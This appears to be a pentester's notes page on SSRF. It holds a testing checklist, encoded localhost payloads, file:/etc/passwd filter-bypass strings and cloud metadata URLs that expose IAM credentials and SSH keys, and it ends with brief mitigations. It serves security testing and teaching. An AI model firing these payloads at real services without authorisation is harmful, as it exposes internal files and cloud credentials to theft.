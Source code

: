 ```yaml
---
title: "SSRF"
layout: notes
tags:
  - webapp
  - methodology
  - ssrf
  - FI_parameters
  - FI_http-headers
  - FI_user-input
  - Co_lfi
  - Co_rce
  - Co_dos
  - Co_sensitive-info-disclosure
---
```

## Summary

Server Side Request Forgery at its core is a technique to trick a server's request into accessing backend 'server-only' or external resources on your behalf. This might allow you to bypass authentication or authorization methods in place to achieve unintended or even unexpected functionality from the webapp. This vulnerability is common though often goes under the radar as its attack surface is theoretically the entire website. SSRF can be chained together with exploits such as Open Redirect and XXE - XML External Entity to further expand the attack surface and bypass filters. Generally if a user controls a request to a backend service there is probably a way to modify that request and achieve SSRF.

## Methodology

Things to ask/try when searching for SSRF:
- [ ] **Are there any endpoints sent to a backend server that I can manipulate?**
- [ ] **Are there filters in place?**
	- [ ] **What could these filters be trying to prevent?**
- [ ] try to access localhost
	- [ ] try using different ways to refer to localhost
		- [ ] try hex `0x7f.0x0.0x0.0x1`
		- [ ] try octal `0177.0.0.01` or `017700000001`
		- [ ] try Dword `http://2130706433`
		- [ ] try mixed `http://0177.0.0.0x1`
		- [ ] try shorthand `127.1`
		- [ ] try IPv6 `http://[::]:1337/` `http://0000::1:1337/`
		- [ ] use bubble text [https://capitalizemytitle.com/bubble-text-generator/](https://capitalizemytitle.com/bubble-text-generator/)
	- [ ] can you use nip.io to redirect to a local address
- [ ] try to urlencode special characters
	- [ ] if you see no results try to double urlencode key special characters
- [ ] try case different letters within domains or endpoints `aDmin`
- [ ] try username/password @ expected host
	- [ ] `http://username:password@expected.domain`
- [ ] try commenting out expected values/host with #
- [ ] try to use . between the expected host and bad host to abuse DNS naming hierarchies 
- [ ] try to chain open redirect to bypass filters
- [ ] try to use the referer header to abuse logger logic
- [ ] try to redirect output to an external server to check for data leakage and OAST
- [ ] try changing protocol (https or http)
	- [ ] try `file dict ftp tftp sftp ldap gopher`
	- [ ] try adding a `?` to force validate as a url and bypass content check
		- [ ] `file:/etc/passwd?/` will bypass FILTER_VALIDATE_URL and FILTER_FLAG_QUERY_REQUIRED
		- [ ] `file:///etc/?/../passwd` will bypass contents check from file_get_contents()
- [ ] if you have XXE try to smuggle SSRF inside of XXE

<br>
IF YOU FIND SSRF WITH RESPONSES
- [ ] try to scan for IPs and ports with burp intruder
	- [ ] any successful hits enumerate further and determine the service/attack surface
- [ ] look through documentation of the backend service
- [ ] try to get any AWS related endpoints

<br>
IF YOU FIND BLIND SSRF FROM OAST TECHNIQUES
- [ ] try to construct a payload using information from how the service is meant to run
- [ ] maybe toss in the report if you can find something like admin portal functionality

## Capabilities

Local File Inclusion  
Sensitive Data Exposure  
Remote Code Execution  
Denial of Service  

## Found In

Parameters  
User Input  
HTTP Headers  

## Tools/Examples

[https://portswigger.net/web-security/ssrf/url-validation-bypass-cheat-sheet](https://portswigger.net/web-security/ssrf/url-validation-bypass-cheat-sheet)

[https://nip.io/](https://nip.io/)
```
10.0.0.1.nip.io maps to 10.0.0.1
192-168-1-250.nip.io maps to 192.168.1.250
0a000803.nip.io maps to 10.0.8.3
```

common configuration files
```
.htaccess
.htpasswd
web.config
.git/config
nginx.conf
server-status
status
cgi-bin/php.ini
DOCKERFILE
sitemap.xml
robots.txt
/swagger
```

usual suspects
```html
http://localhost/admin
file://etc/passwd
```

[https://gist.github.com/jhaddix/78cece26c91c6263653f31ba453e273b](https://gist.github.com/jhaddix/78cece26c91c6263653f31ba453e273b)
```
## AWS
# from http://docs.aws.amazon.com/AWSEC2/latest/UserGuide/ec2-instance-metadata.html#instancedata-data-categories

http://169.254.169.254/latest/user-data
http://169.254.169.254/latest/user-data/iam/security-credentials/[ROLE NAME]
http://169.254.169.254/latest/meta-data/iam/security-credentials/[ROLE NAME]
http://169.254.169.254/latest/meta-data/ami-id
http://169.254.169.254/latest/meta-data/reservation-id
http://169.254.169.254/latest/meta-data/hostname
http://169.254.169.254/latest/meta-data/public-keys/0/openssh-key
http://169.254.169.254/latest/meta-data/public-keys/[ID]/openssh-key

# AWS - Dirs 

http://169.254.169.254/
http://169.254.169.254/latest/meta-data/
http://169.254.169.254/latest/meta-data/public-keys/

## Google Cloud
#  https://cloud.google.com/compute/docs/metadata
#  - Requires the header "Metadata-Flavor: Google" or "X-Google-Metadata-Request: True"

http://169.254.169.254/computeMetadata/v1/
http://metadata.google.internal/computeMetadata/v1/
http://metadata/computeMetadata/v1/
http://metadata.google.internal/computeMetadata/v1/instance/hostname
http://metadata.google.internal/computeMetadata/v1/instance/id
http://metadata.google.internal/computeMetadata/v1/project/project-id

# Google allows recursive pulls 
http://metadata.google.internal/computeMetadata/v1/instance/disks/?recursive=true

## Google
#  Beta does NOT require a header atm (thanks Mathias Karlsson @avlidienbrunn)

http://metadata.google.internal/computeMetadata/v1beta1/

## Digital Ocean
# https://developers.digitalocean.com/documentation/metadata/

http://169.254.169.254/metadata/v1.json
http://169.254.169.254/metadata/v1/ 
http://169.254.169.254/metadata/v1/id
http://169.254.169.254/metadata/v1/user-data
http://169.254.169.254/metadata/v1/hostname
http://169.254.169.254/metadata/v1/region
http://169.254.169.254/metadata/v1/interfaces/public/0/ipv6/address

## Packetcloud

https://metadata.packet.net/userdata

## Azure
#  Limited, maybe more exist?
# https://azure.microsoft.com/en-us/blog/what-just-happened-to-my-vm-in-vm-metadata-service/
http://169.254.169.254/metadata/v1/maintenance

## Update Apr 2017, Azure has more support; requires the header "Metadata: true"
# https://docs.microsoft.com/en-us/azure/virtual-machines/windows/instance-metadata-service
http://169.254.169.254/metadata/instance?api-version=2017-04-02
http://169.254.169.254/metadata/instance/network/interface/0/ipv4/ipAddress/0/publicIpAddress?api-version=2017-04-02&format=text

## OpenStack/RackSpace 
# (header required? unknown)
http://169.254.169.254/openstack

## HP Helion 
# (header required? unknown)
http://169.254.169.254/2009-04-04/meta-data/ 

## Oracle Cloud
http://192.0.0.192/latest/
http://192.0.0.192/latest/user-data/
http://192.0.0.192/latest/meta-data/
http://192.0.0.192/latest/attributes/

## Alibaba
http://100.100.100.200/latest/meta-data/
http://100.100.100.200/latest/meta-data/instance-id
http://100.100.100.200/latest/meta-data/image-id
```

ways to bypass content types and URL filtering
cases for bypassing FILTER_VALIDATE_URL   FILTER_FLAG_QUERY_REQUIRED   file_get_contents()
```
file:/etc/passwd?/
file:/etc/passwd%3F/
file:/etc%252Fpasswd/
file:/etc%252Fpasswd%3F/
file:///etc/?/../passwd
file:///etc/%3F/../passwd
file:${br}/et${u}c/pas${te}swd?/
file:$(br)/et$(u)c/pas$(te)swd?/
file:${br}/et${u}c%252Fpas${te}swd?/
file:$(br)/et$(u)c%252Fpas$(te)swd?/
file:${br}/et${u}c%252Fpas${te}swd%3F/
file:$(br)/et$(u)c%252Fpas$(te)swd%3F/
file:///etc/passwd?/../passwd
```

#### Mitigation

Limit port connections, whitelist certain hosts?  
Resolve IPs for external hosts and reject internal IP  
Disable access to non http or https protocols  

